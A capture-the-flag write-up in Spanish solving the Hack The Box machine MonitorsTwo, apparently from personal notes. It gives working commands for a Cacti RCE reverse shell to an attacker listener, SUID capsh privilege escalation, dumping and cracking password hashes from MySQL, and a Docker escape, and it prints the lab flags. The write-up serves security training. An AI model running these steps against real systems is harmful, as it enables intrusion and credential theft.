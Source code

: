 ```yaml
---
title: MonitorsTwo HTB
date: 2023-07-12
tier: easy
author: naibu3
---
```


## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.211
```
```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora buscamos versiones y más información:

```bash
sudo nmap -sCV -p22,80 10.10.11.211
```
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como parece que la explotación irá via web, podemos ir lanzando el script `http-enum` de [[nmap]]:

```bash
sudo nmap --script http-enum -p80 10.10.11.211
```
```nmap
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /docs/: Potentially interesting folder
```

Si accedemos a la web, veremos una pestaña de login de un servicio llamado **Cacti**, vemos también un número de versión, la **1.2.22**. Con una breve búsqueda en internet vemos que:

> Cacti es una completa solución de gráficos, monitoreo de redes y recopilación de datos que aprovecha el poder de RRDtool. Con la herramienta Cacti puedes sondear servicios a intervalos predeterminados y hacer gráficas con los datos resultantes.

Si buscamos junto a la versión, encontraremos que resulta ser vulnerable, además de un [repositorio](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) con un exploit en [[python]].

## Explotación

Si nos ponemos en escucha y lo ejecutamos:

```bash
nc -lvnp 39393
```

```bash
python3 exploit.py -u http://10.10.11.211 --LHOST=10.10.16.53 --LPORT=39393
```

Nos devolverá la conexión y obtendremos una shell:

```bash
bash-5.1$ whoami
whoami
www-data
```

Ahora podremos aplicar un [[Tratamiento de la tty]] para hacer más cómodo el reconocimiento del equipo ([[Reconocimiento del equipo]]). 

## Escalada de privilegios (Docker)

Como hemos visto, estamos bajo el usuario **www-data**, para tratar de listar usuarios podemos echar un vistazo al **/etc/passwd**, sobre el que tenemos permisos de lectura:

```passwd
root:x:0:0:root:/root:/bin/bash
[...]
```

En el que parece que el único usuario válido es **root**. Si ademś intentamos hacer un `echo $HOSTNAME`, nos dirá que es *50bca5e748b0*, lo que apunta a que la aplicación corre sobre un contenedor en [[Docker]]. Además, no está instalado *sudo* ni ningún editor.

Si comprobamos los **permisos SUID**:

```bash
find / -perm -4000 2>/dev/null
```
```find
[...]
/usr/bin/newgrp
/sbin/capsh
/bin/mount
[...]
```

Vemos que extrañamente **/sbin/capsh** tiene permisos SUID, si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/capsh/), vemos que podemos utilizarlo para convertirnos en **root**:

```bash
capsh --gid=0 --uid=0 --
```
```bash
root@50bca5e748b0:/var/www# whoami
root
```

Una vez como root, podemos leer el archivo **entrypoint.sh** de la raíz, donde vemos que se realizan conexiones a una base de datos:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

Si tratamos de ejecutar la siguiente línea `mysql --host=db --user=root --password=root cacti -e "show tables"`, veremos las tablas de la BD, donde nos llama la atención la tabla **user_auth**. Cambiamos la query para ver su contenido: 

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT username,password FROM user_auth"
```
```user_auth
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
```

Ahora tenemos varias contraseñas hasheadas. Pero podemos romper la del usuario **marcus** con [[hashcat]]:

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```
```hashcat
[...]
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
[...]
```

Y ya tenemos credenciales para acceder por [[22-ssh]] (`marcus:funkymonkey`). Ya tenemos la **flag de usuario** (`a72d202358018ed22b191030c3109366`).

## Escalada de privilegios

Una vez dentrode la máquina no encontramos nada sospechoso, salvo porque la versión de [[Docker]] es antigua. Tras una búsqueda por internet, descubrimos que es vulnerable y nos permite escalar privilegios, además encontramos un exploit en el siguiente [repo](https://github.com/UncleJ4ck/CVE-2021-41091).

Seguimos las instrucciones, asignando privilegios a la bash del contenedor del que escapamos antes, y ejecutamos el script, introducimos *yes*, y ya somos **root**. 

Ya has resuleto la máquina (`a27ca576dbee82997c0c0bfaf769249b`)!